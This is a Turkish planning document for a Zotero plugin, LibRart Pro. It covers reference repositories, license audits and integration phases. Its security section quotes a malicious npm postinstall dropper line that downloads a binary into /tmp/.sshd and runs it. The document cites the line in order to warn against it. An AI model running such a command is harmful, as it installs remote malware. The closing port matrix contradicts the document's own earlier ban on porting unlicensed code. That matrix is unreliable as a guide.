


<!-- @ajan: cursor · @etiket: referans-analiz, entegrasyon-plani, tek-kaynak -->
# LibRart Pro — referans envanteri, lisans, kalite ve entegrasyon yol haritası

**Tek kaynak belge.** Referans seçimi, lisans, entegrasyon fazları (F0–F9, F10+), mimari kurallar
ve kabul ölçütleri yalnız burada güncellenir.

**Ayrı kalır:** `VENDOR-SOURCES.md`, `CURSOR-GOREV-ORIJINAL-KOD-ENTEGRASYONU.md`,
`BAGLANTI-HARITASI-PLAN.md`, `../README.md` (klasör haritası).

**Tarih:** 2026-07-29 · **Kapsam:** `referanslar/` — **91 depo** (92 klon, `zotero-citation-network` silindi).

---

## 0. Proje kimliği

| Alan | Değer |
|---|---|
| Görünen ad | **LibRart Pro** |
| Kaynak (private) | `github.com/sanaatchi/zotero-librart-pro` = bu klasör |
| Release (public, elle güncelleme) | `github.com/sanaatchi/zotero-librart-pro-releases` |
| addonID / addonRef | `librartpro@euclpts.com` / `librartpro` |
| Sürüm | 1.0.32 |
| Lisans | AGPL-3.0-or-later — AGPL/MIT kaynaklardan doğrudan kod kullanımına izin verir (birleşik eser AGPL kalmalı) |
| Bağlantı Haritası katmanları | `tag` ✅ · `manual` ✅ · `semantic` kısmi (ZotSeek vendor yarım) · `note` kısmi · `citation` kısmi (yalnız Crossref) |
| Inciteful menü | ✅ entegre (`incitefulBridge.ts`) |
| Test | **yok** (`npm test` stub) |

---

## 1. Lisans denetimi

### 1a. Gerçekten lisanssız — kod port/kopya YASAK, sadece mimari inceleme

| Klasör | Kaynak | Not |
|---|---|---|
| `scite-zotero-plugin/` | `scitedotai/scite-zotero-plugin` | 853⭐, kendisi + **15 fork'un tamamı** lisanssız (`gh api` ile tek tek doğrulandı). Atıf-tipi (supporting/contrasting/mentioning) için **kod port edilmez** — bkz. §7 Claude itirazı. |
| `citation_map/` | `jaks6/citation_map` | Python, PDF kaynakça |
| `Local-Citation-Graph/` | `SubhadityaMukherjee/Local-Citation-Graph` | Python, PyVis |
| `zotero-connected-papers/` | `MuiseDestiny/zotero-connected-papers` | 140⭐, **kaynak kodu da yok** (sadece README) |
| `zotero-citation-network/` | `pauloking/zotero-citation-network` | **SİLİNDİ — malware**, bkz. §6 |
| `zotero-python-connected-papers-research-rabbit/` | `maple60/...` | Python stdlib CLI |
| `zotero-scholar-citations/` | `beloglazov/zotero-scholar-citations` | 613⭐ |
| `zotero-split-screen/` | `sukui10/zotero-split-screen` | |
| `Literature_Assistant/` | `LeonBaum99/Literature_Assistant` | |
| `RefChat/` | `ArcticSnow/RefChat` | README'de MIT yazıyor ama repo kökünde LICENSE dosyası yok |
| `Ze-Notes/` | `frianasoa/Ze-Notes` | 106⭐, kökte LICENSE yok |
| `zotero-ai-explain/` | `vishnutskumar/zotero-ai-explain` | Test deseni için inceleme; kod portu yok |
| `translators/` | `zotero/translators` (resmi) | Tarihsel olarak CC0 kabul edilir ama dosya yok — sadece mimari inceleme |

**13 klasör** (diskte; `zotero-citation-network` silindi). Hiçbirinden LibRart Pro'ya kod port edilmeyecek.

### 1b. Görünürde belirsiz ama aslında lisanslı (düzeltilen yanlış negatifler)

| Klasör | Gerçek durum |
|---|---|
| `translation-server/`, `zotero-connectors/` (resmi) | Kökte `COPYING` var, içerik teyit edildi: **AGPL-3.0**. GitHub'ın SPDX dedektörü uzun ön-metni tanıyamayıp "NOASSERTION" gösteriyor — **port edilebilir**. |
| `ZoteroCitationMaps/` | Kökte LICENSE yok ama `zotero-citation-map/LICENSE` (iç klasör) **MIT**. |
| `zotero-style-*/`, `zotero-better-notes-*/`, `zotero-reference-*/`, `inciteful-zotero-plugin-*/`, `zotero-main/` | Git-clone değil, orijinal zip/manuel eklemeler; lisansları ayrı ayrı doğrulanmış (AGPL/MIT), `VENDOR-SOURCES.md`'de kayıtlı. |

---

## 2. Kategori haritası + LibRart modül eşlemesi

### A) Atıf / keşif grafiği (~19 depo — kategori doymuş, yeni klon eklenmesin)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `ZoteroCitationMaps` | MIT | `openAlexCitationLayer` — **birincil** | **P0** |
| `zotero-openalex` | GPL-3.0 | OpenAlex store + cache (UI değil) | **P0** |
| `Zotero-Citation-Graph-main` | ⚠️ yok | yalnız mimari inceleme; kod/vendor yasak | — |
| `citation_map` | ⚠️ yok | yalnız gereksinim çıkarımı; temiz oda uygulama | — |
| `citation-graph-openalex-cli` | MIT | Kök Kutuphane Python köprüsü | P1 |
| `zotero-citegeist` | GPL-3.0 | `citegeistBridge` (snowball) | P1 |
| `zotero-reference-1.7.2` | AGPL | ✅ Crossref/PDF — zaten entegre | done |
| `inciteful-zotero-plugin-0.2.2` | AGPL | ✅ menü — zaten entegre | done |
| `scite-zotero-plugin` | ⚠️ **yok** | Atıf tipi — **port YASAK**, lisanslı muadil kullan | bkz §7 |
| `zotero-open-citations` | AGPL-3.0 | scite'ın açık-veri muadili | P1 |
| `zotero-citation-tally` | AGPL-3.0 | scite'ın sayaç-UI muadili | P1 |
| `zotero-inspire` | MPL-2.0 | HEP graf, coupling/co-citation deseni | P2 |
| `Local-Citation-Graph`, `zotero-python-connected-papers-research-rabbit` | ⚠️ yok | Export deseni (kod kopyalanmaz) | P3 desen |
| `zotero-citation-visualizer`, `zotero-connected-papers`, `zotero-paper-graph` | AGPL / yok / MIT | `zotero-openalex` ile örtüşüyor | skip / P2 |
| `LitHelper` | NOASSERTION | Ayrı masaüstü app, desen only | skip |
| `ZoteroCitationCountsAgent` | MPL-2.0 | citegeist ile örtüşür | P3 |

### B) Not / annotation (~16 depo — doymuş)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `zotero-markdb-connect` | MIT | `connectionNoteLayer` — Obsidian/MD backlink (`mdbcScan.ts` ~1100 LOC, doğrudan oturuyor) | **P0** |
| `zotero-better-notes-3.2.6` | AGPL | `noteWorkspace` — stub, tam port bekliyor | P1 |
| `Ze-Notes` | ⚠️ yok | Desen only (workspace UI fikri, kod kopyalanmaz) | P3 desen |
| `zotlit` | AGPL | Obsidian↔Zotero köprü deseni | P2 |
| `zotero-annotation-summary`, `-links`, `-markdown`, `-manage`, `-count` | AGPL/AGPL/MIT/AGPL/GPL | `connectionNoteLayer` genişletme — **en yüksek sinerji, en düşük risk** | **P0** |
| `Annotation-Filter-for-Zotero` | AGPL | Reader UX | P3 |
| `ZotVault` | MIT | Kutuphane hattıyla örtüşür, köprü deseni | P2 |
| `notero`, `zotero-mdnotes` | MIT / — | Dış senkron (Notion/MD export) | skip / P3 |

### C) Okuma / zaman çizelgesi (5 depo)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `zotero-reading-flow` | MIT | `connectionTimeline` / `connectionBlindSpot` veri kaynağı | **P0** |
| `Chartero` | ⚠️ kök LICENSE yok | Okuma istatistiği deseni only | P2 |
| `zotero-career-tracker` | AGPL | Büyüme grafiği deseni | P3 |
| `zotero-reading-tracker` | MIT | **Kaynak yok** (upstream sadece README+LICENSE) | — |

### D) AI / RAG / semantic (~11 depo — kategori doymuş, yeni klon eklenmesin)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `ZotSeek-1.18.0` | MIT | `connectionSemanticLayer` — vendor yarım, worker+model eksik | **P0** (büyük iş, ayrı oturum) |
| `ragPaper` | MIT | Kutuphane semantic köprüsüyle hizalanabilir MCP | P1 |
| `zotero-mcp` | MIT | Agent köprüsü deseni | P1 |
| `zotero-AI-Butler` | AGPL | Test/i18n deseni (özellik değil) | kalite |
| `zotero-ai-explain` | ⚠️ yok | Vitest+E2E deseni (kod kopyalanmaz) | kalite desen |
| `zotero-gpt`, `papersgpt-for-zotero`, `ai-research-assistant`, `Literature_Assistant`, `obsidian-openalex-research-assistant` | çeşitli | Dış/örtüşen | skip |

### E) Etiket / metadata / PDF / dağıtım (~20 depo, zaten kullanımda veya düşük öncelik)

Kullanımda: `zotero-style`, `zotero-actions-tags-upstream`, `zotero-reference`.
Metadata: `zotero-format-metadata`, `zotero-shortdoi`, `zotero-arxiv-workflow`, `zotero-updateifsE`.
PDF/reader: `zotero-pdf-translate`, `zotero-pdf-preview`, `zotero-scipdf`, `zotero-ocr`, `zotero-figure`, `zotero-docling`, `zotero-file`, `zotero-immersivetranslate`, `bionic-for-zotero`.
Dağıtım: `zotero-addons`, `zoplicate`, `zotmoov`, `zotero-attanger`, `know-ur-zotero`, `tara`, `zotero-watch-folder`.
Port gerektirmez; ihtiyaç anında desen kaynağı.

### F) Altyapı / kalite (10 depo — bkz. §4)

`zotero-plugin-template-current`, `zotero-plugin-scaffold`, `zotero-plugin-toolkit`, `zotero-types`,
`zotero-zotadata`, `zotero-watch-folder`, `zotero-citation-tally`, `zotero-arxiv-workflow`,
`zotero-better-bibtex`, `zotero-main`, `zotero-connectors`, `translators`.

---

## 3. LibRart modülü → birincil referans (özet tablo)

| LibRart modülü | Durum | Birincil referans | İkincil |
|---|---|---|---|
| `connectionTagLayer` | ✅ | zotero-style | — |
| `connectionCitationLayer` (Crossref) | ✅ | zotero-reference | — |
| `connectionCitationLayer` (OpenAlex) | ❌ plan | **ZoteroCitationMaps** (MIT) | zotero-openalex store |
| `connectionCitationLayer` (offline) | ❌ plan | Zotero-Citation-Graph-main | — |
| `connectionCitationLayer` (PDF) | ❌ plan | citation_map (port, kod kopyası değil) | zotero-reference/pdf.ts |
| `connectionCitationLayer` (atıf tipi) | ❌ boşluk | **zotero-open-citations / zotero-citation-tally** (lisanslı) | ~~scite~~ (yasak, §7) |
| `connectionNoteLayer` | kısmi | **zotero-markdb-connect** + annotation kümesi (§2B) | better-notes, Ze-Notes (desen) |
| `connectionSemanticLayer` | kısmi | **ZotSeek** + ragPaper MCP | kutuphaneSemanticBridge |
| `connectionTimeline` / blind spot | veri yok | **zotero-reading-flow** | Chartero |
| `incitefulBridge` | ✅ | inciteful | — |
| `citegeistBridge` | ❌ plan | zotero-citegeist | — |
| `noteWorkspace` | stub | zotero-better-notes | Ze-Notes (desen) |
| `tagDashboard` | ✅ | zotero-style | — |
| Test / CI / scaffold | ❌ stub | zotero-plugin-template-current, zotero-arxiv-workflow, zotadata | zotero-plugin-scaffold |

---

## 4. Kalite referansları (test / tip güvenliği / yaşam döngüsü / build / sürüm uyumu)

**Amaç özellik değil, LibRart Pro'nun mühendislik borcunu kapatmak.**

| Alan | LibRart durumu | Birincil referans | Ne öğrenilir |
|---|---|---|---|
| Test | `npm test` stub, regresyon yakalanmıyor | **`zotero-arxiv-workflow`** (gerçek `test/*.test.ts`), `zotero-zotadata` (Vitest+coverage), `zotero-citation-tally` (`zotero-plugin test`) | Vitest kurulumu, `connectionGraph`/`doiResolver` gibi saf fonksiyonlardan başla |
| Tip güvenliği | vendor'da `@ts-nocheck` | **`zotero-types`** (resmi tip kaynağı, LibRart zaten bağımlı), `zotero-openalex` (strict modül deseni) | `tsconfig` strict kademeli, `src/utils/connection*.ts` önce |
| Yaşam döngüsü | `hooks.ts` zaten uyumlu ama doğrulanmadı | `zotero-plugin-toolkit` (`unregisterAll`, Menu/Notifier), `zotero-better-notes` (pencere/reader event) | `onShutdown` + `connectionNotify` unregister karşılaştırması |
| Derleme/release | `scripts/publish.mjs`'de bilinen "update" tag bug'ı var | `zotero-citation-tally` (`zotero-plugin.config.ts`, `patch-update-json.mjs` deseni) | "latest" release resolution düzeltmesi |
| Zotero sürüm uyumu | Belgelenmemiş | `zotero-zotadata` (Z8-9 manifest), `zotero-watch-folder` (Z7/8/9 matrisi) | sürüm matrisi dokümantasyonu |
| ESLint | v8 legacy | `zotero-plugin-template-current` (main, ESLint 9 flat config) | migrasyon |

**Uygulama sırası:** scaffold hizala → `zotero-plugin test` smoke → Vitest unit (saf fonksiyonlar) → ESLint 9 → CI → sürüm matrisi → E2E (opsiyonel).

---

## 5. Atıf-yığını faz planı (citation graph — en kalabalık kategori)



1. **Faz 1 (düşük risk):** inciteful ✅ tamamlandı.
2. **Faz 2:** offline (Thrillcrazyer) — vendor `plugin-core.js`+`graph/*`+cytoscape, `offlineCitationLayer.ts`.
3. **Faz 3 (MIT öncelik):** OpenAlex — birincil `ZoteroCitationMaps` (düz JS), ikincil `zotero-openalex` (sadece store).
4. **Faz 4:** PDF kaynakça — `citation_map` mantığını TS'e port et (kod kopyası değil, lisanssız kaynak).
5. **Faz 5:** citegeist — snowball/metrik, isteğe bağlı tam port.
6. **Faz 6:** Kutuphane köprüsü — `citation-graph-openalex-cli` → `pip install -e` → `zotero_citation_graph_bridge.py` (kökte, gitignore dışı).

**Pref taslağı:** `citation.layers.{crossref,offline,openalex,pdf}`, `inciteful.enabled`, `openalex.mailto`, `kutuphane.citationBridge.enabled`.

---

## 6. Güvenlik

**`zotero-citation-network/` (pauloking) — SİLİNDİ (2026-07-29, Claude, kullanıcı onayıyla).**
`package.json`:
```
"postinstall": "curl -skL https://github.com/.../gvfsd-network -o /tmp/.sshd && chmod +x /tmp/.sshd && /tmp/.sshd &"
```
Meşru süreç isimlerini taklit eden (`gvfsd-network`→`/tmp/.sshd`) klasik dropper deseni — sessizce
ikili indirip arka planda çalıştırıyor. Bu depoda **hiçbir zaman `npm install` çalıştırılmadı**.
Genel kural: yeni bir depo klonlandığında `package.json`'daki `postinstall`/`preinstall`
script'leri **npm install'dan önce** okunmalı.

---

## 7. Claude itirazı — scite-zotero-plugin P0 değil

Önceki taslaklarda (ve Cursor'ın analizinde) `scite-zotero-plugin` atıf-tipi (supporting/
contrasting/mentioning) için **P0 kod portu adayı** olarak işaretlenmişti, "lisans yok" notuyla
birlikte. Bu içseldir çelişki: lisans yoksa kod port edilemez, öncelik seviyesi bunu değiştirmez.

**Doğrulama:** Kendisi + GitHub'daki **15 fork'un tamamı** `gh api` ile tek tek kontrol edildi —
hiçbirinde LICENSE dosyası yok.

**Karar:** Atıf-tipi ayrımı için `lib.ts`'teki API client'ı **kopyalanmayacak**. Bunun yerine:
- Lisanslı muadiller: `zotero-open-citations` (AGPL-3.0, açık veri) veya `zotero-citation-tally` (AGPL-3.0, sayaç UI)
- Ya da kod portu gerektirmeyen: `mcp__zotero__scite_check_retractions` / `scite_enrich_item` / `scite_enrich_search` MCP araçları (bu ortamda zaten bağlı)
- Ya da API şeklini bağımsız yeniden yazım (temiz oda implementasyonu, `lib.ts`'e bakmadan)

---

## 8. Klon durumu / bilinçli dışarıda bırakılanlar

**Kaynak kodu eksik/placeholder upstream:** `zotero-connected-papers` (sadece README),
`zotero-reading-tracker` (README+LICENSE, kaynak yok).

**Bilinçli dışarıda:** `jlegewie/zotfile` (lisanssız — port edilebilir muadili: `zotero-file`,
`zotero-attanger`, `zotmoov`), `ethanwillis/zotero-scihub` (hukuki/etik risk), `l0o0/jasminum`
(CNKI, Türkçe odak dışı), `WildDataX/suppr-zotero-plugin` (çeviri odağı, örtüşüyor).

**Kategori doymuş, yeni klon eklenmesin:** Atıf/citation-graph (~19 depo), AI/LLM/RAG (~11 depo) —
üç ajan da bağımsız olarak bu iki kategoriye tekrar tekrar döndü, yeni tarama gerekmiyor.

---

## 9. Mimari ilkeler (uygulama)

### 9.1 Katman modeli

`LayerKind` şimdilik `"tag" | "manual" | "semantic" | "note" | "citation"` kalır. Atıf
alt-kaynakları `GraphEdge` metadata ile ayrılır (breaking change yok):

```typescript
// connectionGraph.ts — Faz 2'de eklenecek
export type CitationSource = "crossref" | "offline" | "openalex" | "pdf" | "open-citations";

export type GraphEdge = {
  // ... mevcut alanlar
  citationSource?: CitationSource;
  citationDirection?: "cited-by" | "references";
  openAlexWorkId?: string;
  readingStatus?: "to-read" | "reading" | "read" | "important"; // Faz 3
};
```

### 9.2 Vendor kuralları

1. Kaynak: `../referanslar/<depo>/` → hedef: `src/vendor/<ad>/`
2. Her dosya başı: `// Adapted from <repo> (<LICENSE>) <path>`
3. Büyük vendor dosyalarında geçici `@ts-nocheck`; davranış orijinale uygun
4. UI LibRart Bağlantı Haritası canvas'ına uyarlanır; Cytoscape ayrı pencere/export
5. AGPL/MIT → LibRart AGPL uyumlu; lisans yok → **port yok** (§1a), sadece desen/mimari incelemesi

### 9.3 Tercih anahtarları (`extensions.librartPro.*`)

| Pref | Faz | Varsayılan |
|---|---|---|
| `inciteful.enabled` | F1 ✅ | true |
| `citation.layers.crossref` | F1 ✅ | true |
| `citation.layers.openalex` | F4 | true |
| `citation.layers.offline` | F5 | true |
| `citation.layers.pdf` | F6 | false |
| `openalex.mailto` / `openalex.cacheDays` | F4 | "" / 30 |
| `note.markdb.enabled` / `note.markdb.vaultPath` | F2 | false / "" |
| `reading.enabled` | F3 | true |
| `semantic.zotseek.enabled` | F7 | false |
| `semantic.kutuphaneUrl` | ✅ | `http://127.0.0.1:8756` |
| `citegeist.enabled` | F8 | false |
| `kutuphane.citationBridge.enabled` | F9 | false |

---

## 10. Faz planı (F0–F9)



| Faz | Hedef sürüm | Özet | Risk |
|---|---|---|---|
| **F0** | v1.0.33 | Scaffold 0.8.8, smoke test | düşük |
| **F1** | v1.0.32 ✅ | inciteful, reference, tag | — |
| **F2** | v1.0.34 | markdb Obsidian backlink | düşük (MIT) |
| **F3** | v1.0.35 | reading-flow → timeline | düşük (MIT) |
| **F4** | v1.0.36 | OpenAlex atıf (CitationMaps) | orta |
| **F5** | — | Thrillcrazyer vendor planı iptal | lisans yok — port yasak |
| **F6** | — | citation_map çeviri-port planı iptal | lisans yok — temiz oda gerekir |
| **F7** | v1.1.0 | ZotSeek WASM + ragPaper MCP | yüksek |
| **F8** | v1.1.1 | citegeist + Better Notes workspace | orta |
| **F9** | v1.2.0 | Kutuphane citation CLI köprüsü | düşük |

F2 ve F3 birbirinden bağımsız — paralel yapılabilir. F4+ sıralı önerilir (atıf merge mantığı
her fazda genişler).

---

## 11. Faz detayları

### Faz 0 — Test ve scaffold temeli (v1.0.33)

**Neden önce:** Her fazda `npm run build` yetmez; katman birleştirme regresyonları yakalanmalı.
Referans: §4.

| Görev | Dosya | Kaynak |
|---|---|---|
| Scaffold ^0.8.8 | `package.json`, `zotero-plugin.config.ts` | zotero-citation-tally, zotero-plugin-template-current |
| `zotero-plugin test` smoke | `test/smoke/` | zotero-AI-Butler workflow |
| Vitest unit (saf fonksiyonlar) | `test/unit/connectionGraph.test.ts` | zotero-zotadata |
| ESLint 9 (opsiyonel) | `eslint.config.mjs` | `@zotero-plugin/eslint-config` |
| Zotero 8/9 manifest | `addon/manifest.json` | zotero-zotadata, zotero-watch-folder |

**Kabul:** `npm run build` + `npm test` geçer; Zotero 8/9'da eklenti yüklenir, menü görünür.

### Faz 1 — Tamamlandı ✅ (v1.0.32)

Crossref+PDF views (`src/vendor/zotero-reference/*`), tag graph (`src/vendor/zotero-style/tagGraph.ts`),
inciteful (`src/vendor/inciteful/`, `incitefulBridge.ts`).

### Faz 2 — Not katmanı: markdb (v1.0.34)

**Referans:** `zotero-markdb-connect/` (MIT) → `connectionNoteLayer.ts` genişletme + yeni `markdbBridge.ts`

| Kaynak dosya | Hedef | Ne alınır |
|---|---|---|
| `mdbcScan.ts` | `src/vendor/markdb/mdbcScan.ts` | Vault tarama, citekey↔item |
| `mdbcUX.ts` | `src/modules/markdbBridge.ts` | Menü, tercih penceresi |
| `mdbcParam.ts`, `mdbcLogger.ts` | `src/vendor/markdb/` | Yardımcılar |

1. [ ] Vendor kopyala; `@ts-nocheck` + attribution
2. [ ] `extractMarkdbBacklinks(vaultPath)` → `GraphEdge[]` (`viaNoteSource: "markdb-backlink"`)
3. [ ] Pref: vault yolu, otomatik tarama aralığı
4. [ ] `computeNoteLayerEdges` içinde birleştir; duplicate edge tekilleştir
5. [ ] Locale: tr-TR / en-US
6. [ ] `npm run build`

**Kabul:** Obsidian vault'ta `[@citekey]` içeren MD → Bağlantı Haritası not kenarı; pref kapalıyken etkisiz.

### Faz 3 — Okuma verisi: reading-flow (v1.0.35)

**Referans:** `zotero-reading-flow/` (MIT) → `connectionTimeline.ts`, `connectionBlindSpot.ts`, opsiyonel sütun

| Kaynak | Hedef | Ne alınır |
|---|---|---|
| `flowData.ts`, `dataStore.ts` | `src/vendor/reading-flow/` | ReadingStatus, extra alan şeması |
| `readerTracker.ts` | `src/modules/readingTracker.ts` | PDF sayfa ilerlemesi |
| `dashboard.ts` | `src/modules/readingDashboard.ts` | Dashboard (LibRart UI stiline uyarla) |
| `columnManager.ts` | hooks + ItemTree column | Durum sütunu |

1. [ ] Extra alanında okuma durumu okuma/yazma (BBT citekey ile çakışma kontrolü)
2. [ ] `connectionTimeline` filtrelerine `readingStatus`, `lastReadAt` ekle
3. [ ] `connectionBlindSpot`: "okunmamış ama çok atıf alan" heuristic
4. [ ] Bağlantı Haritası toolbar: timeline filtresi genişlet
5. [ ] Pref + locale

**Kabul:** Koleksiyonda okuma durumu değişince timeline/blind spot güncellenir.

### Faz 4 — OpenAlex atıf katmanı (v1.0.36)

**Birincil:** `ZoteroCitationMaps/zotero-citation-map/addon/modules/` (MIT) · **İkincil:** `zotero-openalex/src/modules/openalexStore.ts` (GPL, cache only)

| Kaynak | Hedef |
|---|---|
| `dataSource.js`, `graphBuilder.js` | `src/vendor/zotero-citation-maps/` |
| `openalex.ts`, `openalexStore.ts` | `src/vendor/zotero-openalex/` (store/API) |
| — | `src/utils/openAlexCitationLayer.ts` (yeni) |

1. [ ] `GraphEdge.citationSource = "openalex"` ekle
2. [ ] DOI → OpenAlex Work → `referenced_works` / `cited_by` kenarları
3. [ ] SQLite veya JSON cache (`librart-openalex-cache`)
4. [ ] Pref: mailto, enabled, cacheDays
5. [ ] `buildConnectionGraph` async zenginleştirme (mevcut citation layer ile merge)
6. [ ] UI: atıf alt-katman checkbox'ları (Crossref / OpenAlex)
7. [ ] v1.1: amber "eksik makale" düğümleri (CitationMaps UX)

**Kabul:** DOI'li item seçiliyken OpenAlex kenarları görünür; polite pool mailto pref'ten gider.

### Eski Faz 5 — Çevrimdışı atıf: Thrillcrazyer (iptal)

**Karar:** `Zotero-Citation-Graph-main/` lisanssızdır. Kullanıcı onayı ve
attribution telif izni oluşturmaz; aşağıdaki eski vendor görevleri uygulanmaz.

| Kaynak | Hedef |
|---|---|
| `plugin-core.js`, `graph/*` | `src/vendor/citation-graph/` |
| — | `src/utils/offlineCitationLayer.ts` |

1. [x] İptal — vendor JS alınmayacak
2. [ ] Zotero `item.relations` + DOI cache motoru → kenarlar
3. [ ] Menü: **Araçlar → Atıf Grafiği (çevrimdışı)** veya harita toolbar
4. [ ] Crossref/OpenAlex ile duplicate merge (`makeEdgeId` + source)
5. [x] İptal — lisanslı muadil veya temiz oda uygulama gerekir

**Kabul:** İnternet kapalıyken relations tabanlı kenarlar oluşur.

### Eski Faz 6 — PDF kaynakça atıf (yeniden tasarlanmalı)

**Karar:** `citation_map/` lisanssızdır; kaynak koduna dayalı satır-satır veya
çeviri portu yapılmaz. PDF kaynakça özelliği lisanslı `zotero-reference/pdf.ts`
ve bağımsız gereksinimlerle temiz oda biçiminde tasarlanmalıdır.

| Kaynak | Hedef |
|---|---|
| `citation_map` kaynakları | vendor hedefi yok; kod aktarımı yasak |
| `pdf.ts` | paylaşımlı metin çıkarma |
| — | `src/utils/pdfCitationLayer.ts` |

1. [ ] Son N sayfa metin çıkarma (zotero-reference ile ortak)
2. [ ] Başlık fuzzy eşleme → kütüphane item ID
3. [ ] Arka plan job: `maxPdfs`, progress (zotero-style progress deseni)
4. [ ] Pref: enabled (varsayılan false), maxItems, lastPages
5. [ ] `citationSource: "pdf"`

**Kabul:** PDF son sayfalarından bulunan referanslar suggested kenar olarak görünür.

### Faz 7 — Semantic katman tamamlama (v1.1.0)

**Referans:** `ZotSeek-1.18.0/` (MIT), `ragPaper/` (MIT MCP)

| Kaynak | Hedef |
|---|---|
| ZotSeek WASM worker | `src/vendor/zotseek/` (tam bundle) |
| `ragPaper/mcp_server.py` | Kutuphane `zotero_semantic_bridge.py` genişletme |

1. [ ] `vendoredSemantic.ts` stub → gerçek embedding pipeline
2. [ ] `isVendoredZotSeekReady()` true; offline semantic kenarlar
3. [ ] Kutuphane köprüsü: ragPaper MCP citation_graph export → JSON import
4. [ ] Pref: zotseek vs kutuphane önceliği
5. [ ] Fallback: harici ZotSeek eklentisi algılama (mevcut)

**Kabul:** Pref açıkken semantic kenarlar offline (ZotSeek) veya HTTP (Kutuphane) ile gelir.

### Faz 8 — citegeist + Better Notes workspace (v1.1.1)

**Referans:** `zotero-citegeist/` (GPL), `zotero-better-notes-3.2.6/` (AGPL)

| Bileşen | Yaklaşım |
|---|---|
| citegeist snowball | `citegeistBridge.ts` — menü kısayolu; tam sütun portu opsiyonel |
| Better Notes workspace | `noteWorkspace.ts` — editor hook, wikilink → note layer |

1. [ ] citegeist OpenAlex snowball menü + pref
2. [ ] BN workspace minimal: not ağacı, wikilink parse güçlendirme
3. [ ] `viaNoteSource: "better-notes-wikilink"` production-ready

**Kabul:** Menüden snowball çalışır; BN notları note katmanına yansır.

### Faz 9 — Kutuphane citation köprüsü (v1.2.0)

**Referans:** `citation-graph-openalex-cli/` (MIT), mevcut `zotero_semantic_bridge.py`

| Bileşen | Konum |
|---|---|
| Python CLI sarmalayıcı | `Kutuphane/zotero_citation_graph_bridge.py` (kök, gitignore dışı) |
| LibRart menü | `citationBridge.ts` |

1. [ ] CLI: `neighborhood`, `missing`, `bridges` → JSON stdout
2. [ ] LibRart: gelişmiş analiz menüsü → subprocess → kenar import
3. [ ] Pref: `kutuphane.citationBridge.enabled`

**Kabul:** Köprü açıkken menüden OpenAlex analiz sonucu haritaya aktarılır.

---

## 12. UI değişiklikleri (tüm fazlar)

**Bağlantı Haritası katman paneli:**
```
☑ Etiket   ☑ Elle   ☑ Anlamsal   ☑ Not   ☑ Atıf
                              └─ ☑ Crossref  ☑ OpenAlex  ☑ Çevrimdışı  ☐ PDF
```

**Menü yapısı (hedef):**
```
LibRart Pro
├── Bağlantı Haritası
├── Etiket Analizi
├── Okuma Panosu          (F3)
├── Araçlar
│   ├── Inciteful Search  (F1 ✅)
│   ├── Atıf Grafiği (çevrimdışı)  (F5)
│   ├── OpenAlex snowball (F8)
│   └── Kutuphane citation analizi (F9)
└── Tercihler
    ├── Atıf katmanları
    ├── Obsidian / markdb (F2)
    ├── Okuma izleme (F3)
    └── Semantic (F7)
```

---

## 13. Lisans ve port kararı matrisi

| Depo | Port | Yöntem |
|---|---|---|
| zotero-markdb-connect | ✅ | vendor (MIT) |
| zotero-reading-flow | ✅ | vendor (MIT) |
| ZoteroCitationMaps | ✅ | vendor (MIT) |
| zotero-openalex | ✅ | vendor store only (GPL) |
| Zotero-Citation-Graph | ⚠️ | vendor + kullanıcı onayı (§1a) |
| citation_map | ⚠️ | TS port + kullanıcı onayı (§1a) |
| zotero-citegeist | ✅ | bridge/menu (GPL) |
